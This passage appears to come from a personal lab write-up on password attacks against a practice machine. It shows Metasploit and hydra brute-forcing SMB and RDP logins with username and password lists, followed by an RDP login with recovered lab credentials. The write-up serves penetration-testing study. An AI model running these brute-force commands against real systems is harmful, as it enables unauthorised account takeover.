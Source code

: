   * We have a non-standard share named 'david', but we cannot access this; this also shows we can have an user named 'david'

  * With the two usernames 'johanna' and 'david', we can bruteforce the services again for any leads:

    ```sh
    vim win-users.txt
    # 'david' and 'johanna'

    # bruteforce SMB again using metasploit

    msfconsole -q

    use auxiliary/scanner/smb/smb_login

    set RHOSTS password-attacks-3.htb
    set USER_FILE ~/pw-attacks/win-users.txt
    set PASS_FILE ~/pw-attacks/password.list

    run

    # try with mutated passwords

    set PASS_FILE ~/pw-attacks/mut_pass.list

    run
    ```

    ```sh
    # bruteforce RDP
    # if needed, we can use cme for bruteforcing as well
    hydra -L win-users.txt -P password.list rdp://password-attacks-3.htb -t 4 -u

    hydra -L win-users.txt -P mut_pass.list rdp://password-attacks-3.htb -t 4 -u
    # johanna creds work for RDP as well
    ```
  
  * We can get RDP session for 'johanna' for further enumeration:

    ```sh
    xfreerdp /v:password-attacks-3.htb /u:johanna /p:'1231234!'
    # the RDP screen is blank for some reason

    remmina
    # while trying with remmina, it gives the domain 'INLANEFREIGHT.HTB' in error message
    # we also get cert-related errors
    # we can include that and check
